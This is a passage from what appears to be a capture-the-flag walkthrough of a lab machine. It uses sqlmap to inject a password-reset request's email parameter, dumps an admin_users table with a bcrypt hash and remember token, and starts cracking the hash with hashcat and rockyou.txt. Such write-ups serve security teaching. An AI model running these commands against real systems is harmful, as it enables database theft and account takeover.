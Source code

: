 ```
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+
...[snip]...

```

It’s a bit slow, so I’ll want to dump data selectively. I’ll start with the `admin_users` table, replacing `--tables` with `-T admin_users --dump`:

```

oxdf@hacky$ sqlmap -r reset.request --level 5 --risk 3 --threads 10 -p email --batch -D usage_blog -T admin_users --dump  
...[snip]...
Database: usage_blog
Table: admin_users
[1 entry]
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| id | name          | avatar  | password                                                     | username 
| created_at          | updated_at          | remember_token                                               |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| 1  | Administrator | <blank> | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 | admin    
| 2023-08-13 02:48:26 | 2023-08-23 06:02:19 | kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
...[snip]...

```

There’s one user. I could dump the other tables, but that’s all I’ll need.

### Crack Hash

I’ll save that hash to a file and use `hashcat` with the `rockyou.txt` wordlist to try to crack it. If I let it try to detect the hash format, it’ll complain there are multiple possibilities:

```

$ hashcat ./admin.hash rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode
...[snip]...
The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].
...[snip]...

```